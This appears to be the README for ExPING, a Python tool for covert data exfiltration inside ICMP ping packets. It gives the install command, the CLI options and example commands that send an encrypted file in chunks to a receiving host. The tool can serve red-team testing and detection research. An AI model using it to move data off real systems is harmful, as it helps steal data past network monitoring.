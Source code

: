 # ExPING is a simple Python Exfiltration tool

Requires:

* Python >3.7
* Scapy
* cryptography

# Installation

` pip install exping `


# Usage:
```
usage: exping [-h] [-m MSG] [-a ADDRESS] [-c COUNT] [-i INTERVAL] [-k KEY] [-d] [-e] [-s MAX_SIZE]
              [-t {receiver,sender}] [-f FILE]

CLI util to send data in ping

optional arguments:
  -h, --help            show this help message and exit
  -m MSG, --msg MSG     Message to send in ping
  -a ADDRESS, --address ADDRESS
                        Address to send the ping
  -c COUNT, --count COUNT
                        Number of pings to send
  -i INTERVAL, --interval INTERVAL
                        Interval between pings
  -k KEY, --key KEY     Key to use for encryption
  -d, --decrypt         Decrypt the message
  -e, --encrypt         Encrypt the message
  -s MAX_SIZE, --max_size MAX_SIZE
                        Max size of the message
  -t {receiver,sender}, --type {receiver,sender}
                        Receiver or Sender, case insensitive
  -f FILE, --file FILE  File to send/receive
```

# Example

## Sender

` $> exping  -a target -f <file path> -s <chunk size> -e -k <cript key> `

## Receiver

`$> exping -a source -t receiver -f <file path> -k <cript key> `